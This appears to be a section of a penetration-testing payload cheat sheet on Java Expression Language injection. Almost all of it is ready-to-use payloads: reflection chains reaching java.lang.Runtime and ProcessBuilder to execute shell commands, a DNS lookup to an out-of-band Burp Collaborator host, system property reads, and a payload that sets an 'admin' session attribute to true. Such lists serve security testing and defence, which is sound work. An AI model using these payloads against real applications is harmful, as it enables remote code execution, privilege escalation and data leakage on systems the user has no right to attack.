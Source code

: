### Expression Language EL - Basic injection

```java
${<property>}
${1+1}

#{<expression string>}
#{1+1}

T(<javaclass>)
```

### Expression Language EL - Properties

* Interesting properties to access `String`, `java.lang.Runtime`

```ps1
${2.class}
${2.class.forName("java.lang.String")}
${''.getClass().forName('java.lang.Runtime').getMethods()[6].toString()}
```

### Expression Language EL - One-Liner injections not including code execution

```java
// DNS Lookup
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}

// JVM System Property Lookup (ex: java.class.path)
${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}

// Modify session attributes
${pageContext.request.getSession().setAttribute("admin",true)}
```

### Expression Language EL - Code Execution

```java
// Common RCE payloads
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// Method using Runtime
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

// Method using process builder
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// Method using Reflection & Invoke
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}
```